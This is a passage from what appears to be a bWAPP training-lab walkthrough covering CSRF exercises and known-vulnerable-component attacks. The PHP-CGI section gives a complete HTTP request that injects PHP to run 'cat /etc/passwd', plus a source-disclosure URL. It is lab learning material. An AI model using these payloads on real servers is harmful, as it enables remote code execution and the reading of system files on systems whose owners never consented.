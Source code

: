 Modify request

```
User-Agent: Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19
```

# A8 - Cross-Site Request Forgery (CSRF)

Reference the HTML files in resources directory. You can modify these to auto execute in a hidden iframe as an exercise. If bWAPP had CSRF mitigations (such as utilization of tokens), then the POST requests made from the csrf_x.html files would respond with forbidden.

### 💀  Cross-Site Request Forgery (Change Password) 💀

Please reference [csrf_1.html](resources/csrf_1.html). Replace the address within the HTML with your own bWAPP server and run the form to change the password. If CSRF tokens were utilized, then the server should return forbidden.

### 💀  Cross-Site Request Forgery (Change Secret) 💀

Please references [csrf_2.html](resources/csrf_2.html). Again, replace the address within the HTML with your own bWAPP server to change the secret.

### 💀  Cross-Site Request Forgery (Transfer Amount) 💀

Please references [csrf_3.html](resources/csrf_3.html). Again, replace the address within the HTML with your own bWAPP server to change the secret.

# A9 - Using Known Vulnerable Components

### 💀  PHP CGI Remote Code Execution 💀

```
POST /bWAPP/admin/phpinfo.php?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
Host: 192.168.1.20
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Length: 70
Cookie: security_level=0; PHPSESSID=e27e4148fbb0b82028e1cd6e159f4e7a
Connection: close

<?php $r; exec('cat /etc/passwd', $r); echo implode($r, "\n"); die; ?>
```

There is also possibility to display source code

```
http://192.168.1.20/bWAPP/admin/phpinfo.php?-s
```
